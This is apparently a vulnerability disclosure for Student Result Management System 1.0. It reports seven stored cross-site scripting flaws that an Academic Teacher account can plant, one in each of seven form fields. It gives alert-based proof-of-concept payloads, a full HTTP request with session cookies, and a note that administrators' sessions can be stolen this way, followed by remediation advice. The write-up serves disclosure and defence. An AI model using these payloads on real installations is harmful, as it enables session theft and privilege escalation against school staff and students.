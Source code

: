 ## Overview

The [Student Result Management System 1.0](https://www.sourcecodester.com/srms-makumbusho) is vulnerable to multiple stored cross site scripting vulnerabilities. 


Stored Cross-Site Scripting (XSS) is a type of injection attack where malicious scripts are permanently stored on a target server, such as in a database, comment field, or user profile. When other users retrieve the stored data in their browser, the malicious script is executed in their context, potentially leading to session hijacking, defacement, redirection, or theft of sensitive information.

The application contains the following 4 roles:

* Administrator
* Academic Teacher
* Teacher
* Student


While logged in as Academic Teacher role, the following fields are vulnerable to stored cross site scripting vulnerabilties:

## Proof of Concept

### Field 1: Email Field in Profile Setting

as academic teacher role, the email field in profile setting is vulnerable to stored XSS vulnerability, by injecting the POC payload provided below, an alert box is noticed. 

#### Proof of concept (POC) payload: `bwiremunyweki@gmail.com"> <script>alert(1)</script><x`

HTTP Request:
```
POST /srms_0/srms/script/academic/core/update_profile HTTP/1.1
Host: 172.16.152.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: http://172.16.152.146
Connection: keep-alive
Referer: http://172.16.152.146/srms_0/srms/script/academic/profile
Cookie: PHPSESSID=npck4om4s74l5ln3rvqs6al199; __SRMS__logged=1; __SRMS__key=FYVLJRHI40OZLBE38SBL
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=fname&lname=name&email=bwiremunyweki@gmail.com">+<script>alert(1)</script><x+&gender=Male&submit=1
```
HTTP Response:
```
HTTP/1.1 302 Found
Date: Thu, 05 Jun 2025 11:02:01 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
X-Powered-By: PHP/8.2.12
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: ../profile
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

![Stored XSS 1](./images/Stored_XSS1.png)



When administrator account visits the Academic Account page, the proof of concept payload will also be executed: 

![Stored XSS 2](./images/Stored_XSS2.png)

This enables academic teacher account to steal administrator's cookie session and gain administrative privilege on the application.





### Field 2: Academic Term field in Academic Terms Page

as academic teacher role, add a new academic term and inject the following POC payload to academic term field:

#### Proof of concept (POC) payload: `"><img src=X onerror=alert(1) >`

![Stored XSS 3](./images/Stored_XSS3.png)


![Stored XSS 4](./images/Stored_XSS4.png)


### Field 3: Class Name field in Classes Page

as academic teacher role, add a new class and inject the following POC payload in class name field:

#### Proof of concept (POC) payload: `"><img src=X onerror=alert("CLASS") >`

![Stored XSS 5](./images/Stored_XSS5.png)


![Stored XSS 6](./images/Stored_XSS6.png)



### Field 4: Subject field in Subjects Page

as academic teacher role, add a new subject and inject the following POC payload in subject field:

#### Proof of concept (POC) payload: `"><img src=X onerror=alert("SUBJECT") >`

![Stored XSS 7](./images/Stored_XSS7.png)


![Stored XSS 8](./images/Stored_XSS8.png)

### Field 5: Remark field in Grading System Page

as academic teacher role, add a new grade and inject the following POC payload in remark field:

#### Proof of concept (POC) payload: `"><img src=X onerror=alert("REMARK") >`

![Stored XSS 9](./images/Stored_XSS9.png)


![Stored XSS 10](./images/Stored_XSS10.png)


### Field 6: Division field in Division System Page

as academic teacher role, add a new division and inject the following POC payload in division field:

#### Proof of concept (POC) payload: `"><img src=X onerror=alert("DIVISION") >`

![Stored XSS 11](./images/Stored_XSS11.png)


![Stored XSS 12](./images/Stored_XSS12.png)


### Field 7: Title field in Announcement Page

as academic teacher role, add a new announcement and inject the following POC payload in title field:

#### Proof of concept (POC) payload: `"><img src=X onerror=alert("TITLE") >`

![Stored XSS 13](./images/Stored_XSS13.png)


![Stored XSS 14](./images/Stored_XSS14.png)

 
When students or teachers logged into the application, the XSS payload will also be triggered:

![Stored XSS 15](./images/Stored_XSS15.png)


## Recommendation

- #### Output Encoding (Primary Defense):

  * Encode untrusted data before rendering it into the browser.

  * HTML Encoding for HTML body.

  * URL Encoding for query parameters.


- #### Input Validation & Sanitization:

  * Use allowlists (positive validation) to accept only expected input formats.

  * Strip dangerous characters/tags using libraries like DOMPurify (JS), OWASP Java HTML Sanitizer (Java), or HTMLPurifier (PHP).

- #### Content Security Policy (CSP):

  * Deploy a strong CSP to reduce the risk of script execution even if XSS exists.

  * Avoid unsafe-inline and use nonces or hashes for scripts.

- #### HTTP-Only and Secure Cookies:

  * Use the HttpOnly flag to prevent JavaScript access to cookies.

  * Use the Secure flag to ensure cookies are transmitted over HTTPS.

- #### Web Framework Protections:

  * Leverage built-in XSS protections in frameworks (e.g., React auto-escapes output, Django's templating engine escapes by default).